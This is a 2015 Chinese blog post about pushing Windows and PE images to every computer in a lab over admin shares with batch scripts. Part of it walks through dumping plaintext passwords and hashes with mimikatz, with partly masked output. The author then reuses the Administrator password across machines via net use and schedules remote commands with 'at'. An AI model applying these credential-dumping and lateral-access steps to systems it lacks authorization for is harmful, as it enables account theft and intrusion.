 title: 批处理实现机房文件批量传输
date: 2015-10-17
tags: [cmd,bat,网络共享]
categories: bat
---

题记：计算机维护队将于次日在机房进行队员第一次培训会，培训会上的队员实操过程则需要使用到win7和PE镜像，工作人员（委员）不得不提前拷贝好镜像到每一台机子。于是便有了机房内通过网络批量传输文件的想法，实现之后可以大大减轻工作量，传输速度上瓶颈为100Mbps（机房网络配置），与普通USB3.0的U盘传输速率相比确实低了一大截，在传输速率上似乎不占优势，因此我们将多台主机作为源点传输数据，并行传输数据，大大提升了时间效率。

![title](/img/title/6.jpg)

### 机遇阶段
很凑巧，在同类型的机房中上实验课的时候一不小心执行了以下powershell指令：

```Bash
Get-WmiObject -Class Win32_Share -Computername [computername]
# [computername] 代表主机名
```

意外的收获，默认共享居然没有被关闭，切安全策略~[偷笑]!

```Bash
Name     Path                          Description
----     ----                          -----------
ADMIN$   C:\Windows                    远程管理
C$       C:\                           默认共享
D$       D:\                           默认共享
IPC$                                   远程 IPC
```

然而不出所料，我尝试通过net use空连接到旁边的机子时，被无情的拒之门外。要知道机房的电脑都是自带默认密码的。

```Bash
net use z: \\[computername]\D$

为 '[computername]' 输入用户名:
发生系统错误 1223。
操作已被用户取消。
```

好吧，确实是个棘手的问题，因为不可能提前手动更改用户密码，因为机房的电脑自带还原程序（且不可恶意破坏），因此不得不废弃这个方案。于是编者剑走偏锋，掏出了一代神器[mimikatz_trunk](http://blog.gentilkiwi.com/presentations)，利用这个神器可以轻易获取windows系统账户的明文密码。

#### 下载链接
* [Binaires](https://github.com/gentilkiwi/mimikatz/releases/latest)
+ [Sources](https://github.com/gentilkiwi/mimikatz)

使用说明详参[README.md](https://github.com/gentilkiwi/mimikatz/blob/master/README.md)，下载后或编译后程序目录如下：

![mimikatz](/img/jiwei/mimikatz.png)

我们接着运行如下命令即可获得账户明文密码：

```
# 提升权限
mimikatz # privilege::debug
Privilege '20' OK

# 获取密码
mimikatz # sekurlsa::logonpasswords

```

获取密码后部分结果如下：

```Bash
# *是编者自己打上的马赛克，命令执行后输出的全为明文，下同
Authentication Id : 0 ; 298372 (00000000:00048d84)
Session           : Interactive from 1
User Name         : ******
Domain            : ****
Logon Server      : (null)
Logon Time        : 2015-10-16 20:54:11
SID               : S-1-5-21-*******-********-*********-1004
        msv :
         [00000003] Primary
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Flags    : I00/N01/L00/S01
         * NTLM     : 198469ad0**********ed7ddfadd94
         * SHA1     : 1018ac5781ab260******8b9d57fae11d3313a86
        tspkg :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ********
        wdigest :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : ******
        kerberos :
         * Username : ******@outlook.com
         * Domain   : MicrosoftAccount
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : (null)
         * Domain   : MicrosoftOffice16_Data:SSPI:lxstart@outlook.com
         * Password : ******
    
```
### 程序设计
既然获取到了一台机子的明文密码（账户名默认为Administrator），由于机房采用统一镜像进行安装，因此默认账户信息完全一致，那么，就可以跳到批量传输的阶段了。那么我们来做一个详尽的规划：[篇幅有限，下面只提供关键代码]

#### 获取局域网内的主机名列表

原理：通过net view获取局域网主机列表后进行字符串过滤筛选，得到最终的主机名列表并写入hosts.ini文件。

```Bash
(for /f "eol=。 skip=3 tokens=1 delims=, " %%i in ('net view') do (
	for /f "tokens=1 delims=\ " %%a in ('echo %%i ^| findstr ^\') do (
		echo %%a
	)
)) >> hosts.ini
```

#### 建立net use连接

```Bash
# 将网络路径\\[hostname]\d$映射到z:\
net use z: \\[hostname]\d$ "******" /user:"administrator" /persistent:yes
```

在这之前需要先释放z:原本可能存在net use连接：

```Bash
net use z: /delete
```
我们就可以直接通过访问z:来访问到目标机器的D盘根目录并进行文件操作了。

#### 复制文件
推荐使用xcopy命令，参数较简单易懂。

```Bash
# 假设D:\已有win7.iso和PE.iso
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```
#### 批量复制
由于我们已经获取到主机名列表，则我们可以串行批量复制文件。

```Bash
for /f  %%a in (hosts.ini) do (
	echo 正在处理%%a
	call :copyer %%a
	:: 删除映射，释放连接
	net use z: /delete /y
)

# 定义函数
:copyer
net use z: \\%~1\d$ "******" /user:"administrator" /persistent:yes
xcopy D:\win7.iso Z:\
xcopy D:\PE.iso Z:\
```
#### 多主机并行处理
将程序放置到多台主机下运行，划分主机名列表片段到不同的主机，则可同时执行不同的文件批量复制的任务。

#### 最佳方案
这里涉及一种类似于细胞分裂的算法技术，在上面原有的基础上添加更能提高效率的解决方案。假设每人负责部署一台主机（用于批量复制文件），复制完46台机子需要(46-6)/6=7轮，开始说表述的每台机子带宽有限（下面的流程图则以一台源主机为例解释），因此传输速度也难以提升。

更合理的解决方案就是利用所有空闲切有镜像的主机的网络带宽，思路图对比大致如下：

* 传统
![传统文件复制](/img/jiwei/文件复制分裂.png)

* 并行化
![并行化文件复制](/img/jiwei/文件复制并行.png)

关键要解决的问题是需要给下一台机器发送指令，分配给每台主机最优的复制队列：通过ipc$获取远程at和time权限

```Bash
# 建立ipc$连接
net use \\[hostname]\ipc$ "password" /user:"username"

# 获取主机时间，假设为19:00
net time \\[hostname]

# at 设置命令，假设transformListFile.bat包含了计算下一台机子需要复制到的目标队列的算法
at \\[hostname] 19:01 transformListFile.bat

```

具体求法下回分解。夜深人悄悄。
